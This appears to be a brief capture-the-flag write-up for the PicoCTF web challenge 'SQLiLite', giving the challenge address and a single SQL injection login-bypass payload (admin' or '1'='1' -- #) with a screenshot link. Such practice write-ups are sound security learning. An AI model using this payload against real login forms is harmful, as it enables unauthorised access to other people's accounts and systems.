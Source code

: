 ```yaml
---
title: PicoCTF - SQLiLite
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - SQLiLite
<!-- more -->
###### tags: `PicoCTF` `CTF` `Web`
Challenge: http://saturn.picoctf.net:55837/

## Exploit - sqli
Payload:
`admin' or '1'='1' -- #`
![](https://i.imgur.com/yNgpTiY.png)